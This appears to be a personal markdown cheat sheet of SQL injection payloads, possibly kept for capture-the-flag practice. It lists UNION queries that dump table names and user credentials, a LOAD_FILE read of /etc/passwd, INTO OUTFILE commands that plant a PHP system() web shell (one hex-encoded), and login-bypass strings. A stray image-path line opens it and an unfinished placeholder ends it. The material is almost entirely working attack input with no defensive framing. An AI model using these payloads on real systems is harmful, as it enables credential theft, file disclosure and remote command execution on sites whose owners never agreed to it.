 # uploading File with Mysql

Basic:
```
<VALUE>' union select 1, @@version-- -
```
```
<VALUE>' union select 1, table_name FROM information_schema.tables-- -
```
```
sqlite_version()
```
> uploading:
```
<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#
```
> then go to http://example.com/shell.php?cmd=`<exec>`

> uploading file Says 'Hello from SQLI'
```
<VALUE>'union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -
```
>then exec: `curl http://example/shell.php`
# List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
> INPUT
```
(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable')
(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable)
```
# read files
1: 
```
<VALUE>'union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -
```
# command shell
```
<VALUE>'union select 1,'<?php system($_GET['cmd']) ?> INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Payload in hex
```
local@local:~/Documents/tryhackme/yearofthedog/logs$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> select hex('<?php system($_GET["cmd"]) ?>');
+------------------------------------------------------------+
| hex('<?php system($_GET["cmd"]) ?>')                       |
+------------------------------------------------------------+
| 3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E |
+------------------------------------------------------------+
1 row in set (0.00 sec)
```
> then exec:
```
<VALUE>'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Login Page
> try those injection
```
username：admin'
password: 1
- Payload
username: admin'-- -
password: 1

<<SOON>>
```
